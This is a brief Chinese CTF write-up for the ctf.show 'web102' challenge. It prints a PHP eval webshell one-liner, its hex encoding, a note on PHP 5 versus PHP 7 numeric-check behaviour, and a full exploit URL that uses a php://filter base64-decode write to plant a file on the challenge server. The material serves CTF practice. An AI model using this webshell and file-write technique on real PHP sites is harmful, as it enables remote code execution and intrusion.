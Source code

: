 # web102
![](vx_images/218786509275486.png)
v1写调用函数,v2写内容(去掉前两个字符),v3写文件名
<?php eval($_GET["cmd"]);?>--->0x3c3f706870206576616c28245f4745545b22636d64225d293b3f3e
在PHP 5下返回true, 在PHP 7下返回false, 去掉前面的0x, 刚好能用hex2bin恢复成字符串
但是本题环境是PHP 7会返回false


用https://83c43093-ec5c-43a5-b8c2-760913cb3d2c.challenge.ctf.show/?v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php
